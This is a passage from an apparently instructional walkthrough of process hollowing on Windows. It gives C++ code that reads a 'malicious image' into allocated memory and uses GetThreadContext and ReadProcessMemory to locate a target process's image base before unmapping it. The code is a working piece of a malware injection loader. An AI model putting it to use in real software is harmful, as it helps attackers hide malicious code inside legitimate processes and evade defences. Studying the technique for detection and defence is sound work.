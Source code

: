 Once a handle for the malicious image is obtained, memory must be allocated to the local process using `VirtualAlloc`. `GetFileSize` is also used to retrieve the size of the malicious image for `dwSize`.

```cpp
DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```

Now that memory is allocated to the local process, it must be written. Using the information obtained from previous steps, we can use `ReadFile` to write to local process memory.

```cpp
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);
```

At step three, the process must be “hollowed” by un-mapping memory. Before un-mapping can occur, we must identify the parameters of the API call. We need to identify the location of the process in memory and the entry point. The CPU registers `EAX` (entry point), and `EBX` (PEB location) contain the information we need to obtain; these can be found by using `GetThreadContext`. Once both registers are found, `ReadProcessMemory` is used to obtain the base address from the `EBX` with an offset (`0x8`), obtained from examining the PEB.

```cpp
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
	target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
	(PVOID)(c.Ebx + 8), // Pointer to the base address
	&pTargetImageBaseAddress, // Store target base address 
	sizeof(PVOID), // Bytes to read 
	0 // Number of bytes out
);
```

